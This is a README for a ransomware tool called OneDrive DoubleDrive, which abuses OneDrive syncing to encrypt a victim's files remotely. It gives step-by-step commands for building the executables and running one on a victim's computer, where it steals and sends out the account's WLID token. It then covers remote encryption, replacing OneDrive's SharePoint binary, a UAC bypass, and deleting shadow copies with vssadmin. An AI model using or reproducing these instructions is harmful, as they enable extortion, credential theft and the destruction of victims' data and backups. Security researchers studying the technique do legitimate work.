 # OneDrive DoubleDrive
A DoubleDrive variant that uses OneDrive to encrypt local files remotely.

## How to use
1. Make sure you clone the DoubleDrive repo and install the DoubleDrive python package. If you are currently in the onedrive_doubledrive folder then run:
```cmd
pip install ../
```
2. Use `config_setup.py` to setup the exact configuration you want for the ransomware. For example:
```cmd
python .\config_setup.py --temp-email --target-paths C:\Users\Admin\Documents C:\Users\Admin\Desktop
```
3. While you are in the onedrive_doubledrive folder, run:
```cmd
pyinstaller --onefile --add-data "config.yaml;." .\endpoint_takeover.py; pyinstaller --onefile --add-data "config.yaml;." .\onedrive_doubledrive.py
```
4. A folder named `dist` will be created. Inside you can find `endpoint_takeover.exe` and `onedrive_doubledrive.exe`
5. Transfer `endpoint_takeover.exe` to the victim computer and run it. This will create junctions in the OneDrive sync folder that point towards the target folders the contain files to encrypt. It will also extract the WLID token of the OneDrive account and exfiltrate it by sharing it with the email address chosen in the configration setup stage.
> Note - If you chose a temporary email address you should continue to the next step as soon as possible because the generated temporary email address that DoubleDrive uses works for a limited amount of time.
6. Execute `onedrive_doubledrive` with the preffered flags on the attacker's computer. For example:
```cmd
onedrive_doubledrive.exe --remote-ransomware
```
7. In case you passed the `--onedrive-binaries-junction` flag to the `config_setup.py` script in the configuration setup stage, then you can:
   1. Replace the SharePoint executable located in OneDrive's installation folder by running:
   ```cmd
   onedrive_doubledrive.exe --replace-sharepoint
   ```
   2. Execute commands using the `--run-command` flag. You can also run them after a UAC bypass was executed if you add the `--command-uac-bypass` flag. For example:
   ```cmd
   onedrive_doubledrive.exe --run-command "vssadmin delete shadows /all /quiet" --command-uac-bypass
   ```